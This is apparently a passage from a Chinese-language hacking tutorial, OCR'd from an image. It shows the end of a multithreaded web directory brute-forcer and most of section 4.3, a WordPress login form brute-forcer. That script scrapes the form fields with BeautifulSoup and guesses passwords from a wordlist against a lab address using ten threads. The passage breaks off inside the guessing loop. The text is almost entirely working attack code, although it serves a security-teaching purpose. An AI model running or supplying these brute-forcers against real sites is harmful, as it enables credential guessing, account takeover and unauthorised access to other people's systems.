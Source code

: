 ```python
            sys.stderr.write('.')
            sys.stderr.flush()
        else:
            print(f'\n{url} => {r.status_code}')

if __name__ == '__main__':
    words = get_words()
    print('Press enter to continue.')
    sys.stdin.readline()
    for _ in range(THREADS):
        t = threading.Thread(target=dir_bruter, args=(words,))
        t.start()
```

## 4.3. HTML 表单认证爆破
```python
from bs4 import BeautifulSoup
import queue, requests, sys, threading, time

SUCCESS = '欢迎使用WordPress！'
TARGET = 'http://10.0.2.21/wp-login.php'
WORDLIST = 'wordlist_test.txt'

def get_words():
    with open(WORDLIST, 'r') as f:
        raw_words = f.read()

    words = queue.Queue()
    for word in raw_words.split():
        words.put(word)
    return words

def get_params(content):
    params = dict()
    soup = BeautifulSoup(content, 'lxml')
    for item in soup.find_all('input'):
        name = item.get('name')
        if name is not None:
            params[name] = item.get('value')
    return params

class Bruter:
    def __init__(self, username, url):
        self.username = username
        self.url = url
        self.found = False
        print(f'\nBrute Force Attack begining on {url}.\n')
        print("Finished the setup where username = %s\n" % username)

    def run_bruteforce(self, passwords):
        for _ in range(10):
            t = threading.Thread(target=self.web_bruter, args=(passwords, ))
            t.start()

    def web_bruter(self, passwords):
        session = requests.session()
        r0 = session.get(self.url)
        params = get_params(r0.content)
        params['log'] = self.username

        while not passwords.empty() and not self.found:
            time.sleep(5)
```
